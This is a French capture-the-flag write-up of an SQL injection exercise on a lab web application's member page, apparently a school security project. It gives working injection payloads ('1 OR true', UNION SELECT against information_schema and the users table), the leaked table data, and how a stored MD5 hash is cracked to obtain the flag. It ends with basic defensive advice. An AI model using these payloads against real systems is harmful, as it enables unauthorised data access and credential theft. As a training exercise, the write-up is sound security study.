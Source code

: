 # Injection SQL MEMBERzS

Aller dans l'onglet MEMBERS : http://IP/?page=member

L'injection SQL est une méthodes d'exploitation de faille de sécurité d'une application interagissant avec une base de données. Elle permet d'injecter dans la requête SQL en cours un morceau de requête non prévu par le système et pouvant en compromettre la sécurité.

En tapant la commande SQL : `1 OR true` pour afficher tous les membres

On peut voir un compte :

```
First name: Flag
Surname : GetThe
```

Nous voulons trouver toutes les tables et colonnes associer à la database, nous allons utiliser la commande SQL :

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

Structure des tables de la DB:

| Table name       | Column name                                                                     |
|------------------|---------------------------------------------------------------------------------|
| USERS            | user_id, first_name, last_name, town, country, planet, Commentaire, countersign |
| GUESTBOOK        | id_comment, comment, name                                                       |
| LIST_IMAGES      | id, url, title, comment                                                         |
| VOTE_DBS         | id_vote, vote, nb_vote, subject                                                 |


Nous allons donc récupérer toutes les informations de notre compte **Flag** :

Via la commande SQL : `1 UNION SELECT first_name,last_name FROM users`
On fera cela pour toutes les colonnes de la tables **USERS**.

```
user_id: 5
first_name: Flag
last_name: GetThe
town: 42
country: 42
planet: 42
Commentaire: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

- On peut voir un code chiffré dans la colonne **countersign**.
- On va la décoder à l'aide du **site dcode**, c'est un chiffrement **MD5** (FortyTwo)
- Dans la colonne commentaire il est demandé de dechiffrer le mot de passe, de le mettre en minuscule et de le chiffrer en SHA256, ce qui donne fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5



### Comment protéger vos bases de données d’une injection SQL

- Vérifier la saisie utilisateur, les données remises devraient toujours être en accord avec le type de données attendu.
- Échapper les caractères spéciaux à l’aide de mysqli_real_escape_string() ou autres fonctions.
- Préférer l’utilisation de comptes utilisateurs à accès limité pour empêcher la modification ou suppression d’éléments de la base de données.
